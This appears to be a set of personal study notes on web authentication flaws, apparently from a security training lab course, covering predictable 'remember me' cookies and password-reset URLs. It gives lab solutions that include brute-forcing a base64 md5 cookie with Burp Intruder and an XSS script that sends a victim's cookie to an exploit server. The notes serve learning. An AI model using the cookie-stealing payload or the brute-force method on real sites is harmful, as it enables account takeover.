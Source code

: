 - Lab Solution : (pending)

---

## **3 . Vulnerability in other authentication mechanisms :**

*Keeping users logged in :*

A common feature is the option to stay logged in even after closing a browser session. This is usually a simple checkbox labeled something like "Remember me" or "Keep me logged in". This functionality is often implemented by generating a "remember me" token of some kind, which is then stored in a persistent cookie. this cookie allow you to bypass login. However, some websites generate this cookie based on a predictable concatenation of static values, such as the username and a timestamp. basic encryption over this predictable cookies are also not secure. only salting is good way to make it safe. Even if the attacker is not able to create their own account, they may still be able to exploit this vulnerability. Using the usual techniques, such as XSS, an attacker could steal another user's "remember me" cookie and deduce how the cookie is constructed from that. If the website was built using an open-source framework, the key details of the cookie construction may even be publicly documented.

- Lab-1 Solution :
    
    login with username and password, notice that `Update email` is only available when logged-in. now notice /my-account page having `stay-logged-in` cookie try to decode using inspector tab it's username:md5hash this hash may be password, use google to check if it's md5. now send latest /my-account to intruder and select stay-logged-in cookie and add payload passwords than set 3 payload processing rule 1st convert to md5 hash, 2nd "carlos:" prefix, 3rd encode into base64-encoiding , last add grep match rule *Update mail* to extract true cookie to login.
    
- Lab-2 Solution :
    
    login with your credentials and observe cookie, now post has comment section which is vulnerable to XSS. so write following code in comment
    
    `<script>document.location='link of exploit server'+document.cookie</script>`
    
    now access your server's log it has get request with stay-logged-in now first decode base64 and then remove prefix and google md5 decoder and get password, login and delete your account.
    

*Resetting user passwords :*

*Sending passwords by email :*

It should go without saying that sending users their current password should never be possible if a website handles passwords securely in the first place. Instead, some websites generate a new password and send this to the user via email. avoid send password over insecure communication

*Resetting passwords using a URL :*

[http://vulnerable-website.com/reset-password?user=victim-user](http://vulnerable-website.com/reset-password?user=victim-user)

avoid this kind of URL & have URL with random sequence of character like..

[http://vulnerable-website.com/reset-password?token=a0ba0d1cb3b63d13822572fcff1a241895d893f659164d4cc550b421ebdd48a8](http://vulnerable-website.com/reset-password?token=a0ba0d1cb3b63d13822572fcff1a241895d893f659164d4cc550b421ebdd48a8)
